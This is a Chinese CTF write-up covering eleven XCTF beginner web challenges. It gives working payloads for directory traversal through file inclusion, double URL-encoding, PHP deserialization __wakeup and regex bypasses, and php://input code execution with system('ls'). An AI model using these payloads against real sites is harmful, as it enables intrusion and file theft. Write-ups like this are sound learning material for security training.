 ```yaml
---
title: "攻防世界web前11题WP"
date: 2022-01-18T11:26:31+08:00
draft: false
url: "articles/XCTF-WEB-1"
categories: ["CTF-WEB"]
---
```


### baby_web

进去之后发现是/1.php,根据提示“初始页面”，用burpsuite截获index.php，获得flag。
知识点：网页初始页面的文件名一般为index。

### warmup

进去之后发现一个滑稽表情，用burpsuite截获数据包后发现有个source.php，打开之后发现页面源代码。
```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {//page必须被设置且page必须是字符串，否则将被过滤
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {//如果page在白名单内则合法
                return true;
            }

            $_page = mb_substr(//mb_substr(str,start,length)截取字符串中的一段
                $page,
                0,
                mb_strpos($page . '?', '?')//查找'?'在page中首次出现的位置
            );//将page问号之后的内容截掉
            if (in_array($_page, $whitelist)) {//若此时的page在白名单内则合法
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])//_REQUEST是post和get的集合
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])//要求file也满足上面的要求
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
```
根据源代码得到提示，找到文件hint.php，得知flag在ffffllllaaaagggg这个文件里。再次进行代码审计,发现底下有个文件包包含，构造payload为：
http://111.200.241.244:60683/source.php?file=source.php?./../../../../ffffllllaaaagggg
就可以得到flag。

### Training-WWW-Robots

签到题，科普了一波robots.txt。

### PHP2

根据题目提示访问/index.phps获取提示信息：
```php
<?php
if("admin"===$_GET[id]) {//如果id全等于admin则会被过滤
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);//id进行一次url解码
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>

Can you anthenticate to this website?
```
构造id=%2561dmin使之在被两次urldecode后等于admin就可获得flag。

### Web_php_unserialize

又是一道反序列化的题。打开网页发现源代码。
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { //构造函数，赋值给file
        $this->file = $file; 
    }
    function __destruct() { //析构函数
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { // /i的意思是不区分大小写
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```
当Demo被反序列化时，wakeup函数中的内容会被执行，通过构造类中成员属性数目大于实际数目绕过。
`var=O:4:"Demo":2:{s:10:"\0Demo\0file";s:8:"fl4g.php";}`
下面是对var变量的检查，用到了正则表达式，如果var符合开头`o:数字`的形式就会被过滤，这里采用`+`号过滤。
构造`var=O:+4:"Demo":2:{s:10:"\0Demo\0file";s:8:"fl4g.php";}`，再进行一次base64加密，构造payload传参即可得到flag。
注意Demofile中的\0，最好直接复制序列化之后的结果来改，不然特殊字符很容易出问题。

### php_rce

打开以后发现是个Thinkphp V5的介绍页面，说明要利用Thinkphp框架的漏洞。查阅kali linux自带的漏洞数据库即可获得hack的方法。

使用`searchsploit thinkphp``命令即可查询到可利用的漏洞。

然后远程代码执行，找到flag文件。

### Web_php_include

看题目应该是个文件包含。打开页面出一段代码。
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```
阅读代码发现，题目简单过滤了"php://"利用php大小写不敏感的特性，构造大写的pHp://绕过过滤。
使用php://input协议，远程执行代码：
```php
<?php
system("ls");
?>
```
和
```php
<?php
system("cat fl4gisisish3r3.php");
?>
```
获取flag。

### ics-06

签到。Burpsuite暴力跑字典破解。。。

### NewsCenter

注意到网站使用的Sql数据库，使用Sqlmap工具hack。
[sqlmap使用教程](https://www.vuln.cn/1992)

### NaNNaNNaNNaN-Batman

下载到一段代码：
```javascript
function $(){
    var
    e=document.getElementById("c").value;
    if(e.length==16)
        if(e.match(/^be0f23/)!=null)
            if(e.match(/233ac/)!=null)
                if(e.match(/e98aa$/)!=null){
                    if(e.match(/c7be9/)!=null){
                        var t=["fl","s_a","i","e}"];
                        var n=["a","_h0l","n"];
                        var r=["g{","e","_0"];
                        var i=["it'","_","n"];
                        var s=[t,n,r,i];
                        for(var o=0;o<13;++o){
                            document.write(s[o%4][0]);s[o%4].splice(0,1)
                        }
                    }
                }
}
```
js正则表达式审计，但其实可以直接把前面判断的代码删掉，再跑一下生成flag的那段获取flag。

### unserialize3

又一道反序列化，打开页面得到代码：
```php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```
这题和上道反序列化题相比完全是两个级别，直接将给的代码反序列化后，绕过wake_up即可得到flag。